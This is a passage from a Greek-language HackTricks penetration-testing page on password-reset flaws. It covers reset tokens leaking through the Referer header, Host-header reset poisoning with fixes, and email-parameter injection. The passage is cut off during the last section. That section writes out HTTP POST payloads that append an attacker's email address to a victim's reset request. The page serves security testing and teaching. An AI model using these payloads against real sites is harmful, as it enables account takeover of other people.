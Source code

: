 # Επαναφορά/Ξεχασμένος Κωδικός Πρόσβασης

{{#include ../banners/hacktricks-training.md}}

## **Διαρροή Διακριτικού Επαναφοράς Κωδικού μέσω Referrer**

- Ο HTTP referer header μπορεί να διαρρεύσει το διακριτικό επαναφοράς κωδικού αν περιλαμβάνεται στη διεύθυνση URL. Αυτό μπορεί να συμβεί όταν ένας χρήστης κάνει κλικ σε σύνδεσμο τρίτου μέρους μετά από αίτημα επαναφοράς κωδικού.
- **Επίπτωση**: Πιθανή κατάληψη λογαριασμού μέσω επιθέσεων Cross-Site Request Forgery (CSRF).
- **Εκμετάλλευση**: Για να ελέγξετε αν ένα διακριτικό επαναφοράς κωδικού διαρρέει στον referer header, **ζητήστε επαναφορά κωδικού** στη διεύθυνση email σας και **κάντε κλικ στον σύνδεσμο επαναφοράς** που παρέχεται. **Μην αλλάξετε τον κωδικό σας** αμέσως. Αντίθετα, **μεταβείτε σε έναν ιστότοπο τρίτου μέρους** (όπως το Facebook ή το Twitter) ενώ **παρεμβάλλετε τα αιτήματα χρησιμοποιώντας το Burp Suite**. Εξετάστε τα αιτήματα για να δείτε αν ο **referer header περιέχει το διακριτικό επαναφοράς κωδικού**, καθώς αυτό θα μπορούσε να εκθέσει ευαίσθητες πληροφορίες σε τρίτους.
- **Αναφορές**:
- [HackerOne Report 342693](https://hackerone.com/reports/342693)
- [HackerOne Report 272379](https://hackerone.com/reports/272379)
- [Άρθρο Διαρροής Διακριτικού Επαναφοράς Κωδικού](https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a)

## **Δηλητηρίαση Επαναφοράς Κωδικού**

- Οι επιτιθέμενοι μπορεί να χειριστούν τον Host header κατά τη διάρκεια αιτημάτων επαναφοράς κωδικού για να κατευθύνουν τον σύνδεσμο επαναφοράς σε κακόβουλο ιστότοπο.
- **Επίπτωση**: Οδηγεί σε πιθανή κατάληψη λογαριασμού διαρρέοντας τα διακριτικά επαναφοράς στους επιτιθέμενους.
- **Βήματα Μείωσης**:
- Επικυρώστε τον Host header έναντι μιας λίστας επιτρεπόμενων τομέων.
- Χρησιμοποιήστε ασφαλείς, μεθόδους server-side για να δημιουργήσετε απόλυτες διευθύνσεις URL.
- **Διόρθωση**: Χρησιμοποιήστε `$_SERVER['SERVER_NAME']` για να κατασκευάσετε διευθύνσεις URL επαναφοράς κωδικού αντί για `$_SERVER['HTTP_HOST']`.
- **Αναφορές**:
- [Άρθρο Acunetix για τη Δηλητηρίαση Επαναφοράς Κωδικού](https://www.acunetix.com/blog/articles/password-reset-poisoning/)

## **Επαναφορά Κωδικού με Χειρισμό Παραμέτρου Email**

Οι επιτιθέμενοι μπορούν να χειριστούν το αίτημα επαναφοράς κωδικού προσθέτοντας επιπλέον παραμέτρους email για να αποσπάσουν τον σύνδεσμο επαναφοράς.

- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας &
```php
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας %20
```php
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας |
```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας cc
```php
POST /resetPassword
[...]
```